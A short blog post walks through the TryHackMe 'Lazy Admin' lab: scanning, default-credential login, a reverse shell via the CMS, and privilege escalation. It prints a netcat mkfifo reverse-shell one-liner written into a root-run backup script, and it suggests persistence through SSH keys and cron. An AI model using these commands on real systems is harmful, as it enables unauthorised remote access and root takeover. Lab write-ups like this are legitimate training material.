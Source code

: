 ```yaml
---
layout: post
title:  "Lazy Admin THM"
image: ''
date:   2023-04-12 00:01:00
tags:
- thm
description: ''
categories:
- Learn Hacking 
---
```

<img src="/assets/img/sharding-gerenciamento-usuarios/servers.gif">

## Scanning

nmap scan

<img src="/assets/img/thm_pics/lazy_admin_nmap_init.png">

gobuster scan

<img src="/assets/img/thm_pics/lazy_admin_gobuster.png">

Looking into `/content/` we find a website. Running gobuster again we find some interesting sides e.g. a admin login portal.

Looking for default credentials for the side we are quite lucky and can login

<img src="/assets/img/thm_pics/lazy_admin_login.png">

We can also use `searchsploit` to further find interesting vulnerabilties for the cms solution

<img src="/assets/img/thm_pics/lazy_admin_searchsploit.png">

We also found some sql credentials

<img src="/assets/img/thm_pics/lazy_admin_sql_creds.png">

We can abuse the ad function to get a shell one the server

<img src="/assets/img/thm_pics/lazy_admin_rev_shell_login.png">

Running `sudo -l` we are quite suprised since we can run `/usr/bin/perl` as root. Digging a bit deeper we can see that there is a backup script which runs `/etc/copy.sh`. We check if we can write into the file and indeed we can. There is no editor and we have to use echo to overwrite the script. 

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 >/tmp/f' >/etc/copy.sh
```

<img src="/assets/img/thm_pics/lazy_admin_priv_esc.png">

For persistence we could include our ssh key into the `/root/.ssh/aut_key` and include a cronjob. 
